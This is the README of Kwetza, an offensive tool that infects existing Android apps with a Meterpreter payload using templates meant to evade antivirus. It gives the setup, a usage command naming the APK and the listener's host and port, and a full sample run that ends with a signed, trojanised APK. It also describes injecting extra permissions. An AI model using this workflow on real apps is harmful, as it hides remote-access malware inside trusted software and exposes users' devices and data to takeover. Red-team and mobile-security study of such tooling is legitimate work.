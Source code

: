 #Introduction
By Chris Le Roy (@brompwnie) chris@sensepost.com

Kwetza is a tool that allows you to infect an existing Android application with a Meterpreter payload.

#What does it do?
Kwetza infects an existing Android application with either custom or default payload templates to avoid detection by antivirus. Kwetza allows you to infect Android applications using the target application's default permissions or inject additional permissons to gain additional functionality.

#Getting the code

Firstly get the code:
```
git clone https://github.com/sensepost/kwetza.git
```

Kwetza is written in Python and requires BeautfiulSoup which can be installed using Pip:
```
pip install beautifulsoup4
```
Kwetza requires Apktool to be install and accessible via your PATH. This can be setup using the install instructions located here: https://ibotpeaches.github.io/Apktool/install

#Usage

python kwetza.py nameOfTheApkToInfect.apk LHOST LPORT yes/no

* nameOfTheApkToInfect.apk =name of the APK you wish to infect.
* LHOST =IP of your listener.
* LPORT =Port of your listener.
* yes =include "yes" to inject additional evil perms into the app, "no" to utilize the default permissions of the app.

```
python kwetza.py hackme.apk 10.42.0.118 4444 yes
[+] MMMMMM KWETZA
[*] DECOMPILING TARGET APK
[+] ENDPOINT IP: 10.42.0.118
[+] ENDPOINT PORT: 4444
[+] APKTOOL DECOMPILED SUCCESS
[*] BYTING COMMS...
[*] ANALYZING ANDROID MANIFEST...
[+] TARGET ACTIVITY: com.foo.moo.gui.MainActivity
[*] INJECTION INTO APK
[+] CHECKING IF ADDITIONAL PERMS TO BE ADDED
[*] INJECTION OF CRAZY PERMS TO BE DONE!
[+] TIME TO BUILD INFECTED APK
[*] EXECUTING APKTOOL BUILD COMMAND
[+] BUILD RESULT
############################################
I: Using APktool 2.2.0
I: Checking whether source shas changed...
I: Smaling smali folder into classes.dex
I: Checking whether resources has changed...
I: Building resources...
I: Copying libs ...(/lib)
I: Building apk file...
I: Copying unknown files/dir...
###########################################
[*] EXECUTING JARSIGNER COMMAND...
Enter Passphrase for keystore: password
[+] JARSIGNER RESULT
###########################################
jar signed.

###########################################

[+] L00t located at hackme/dist/hackme.apk
```


#Information

Kwetza has been developed to work with Python 2. Kwetza by default will use the template and keystore located in the folder "payload" to inject and sign the infected apk. If you would like to sign the
infected application with your own certificate, generate a new keystore and place it in the "payload" folder and rename to the existing keystore or change the 
reference in the kwetza.py. The same can be done for payload templates. The password for the default keystore is, well, "password".

#License

Kwetza is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License (http://creativecommons.org/licenses/by-nc-sa/4.0) Permissions beyond the scope of this license may be available at http://sensepost.com/contact.
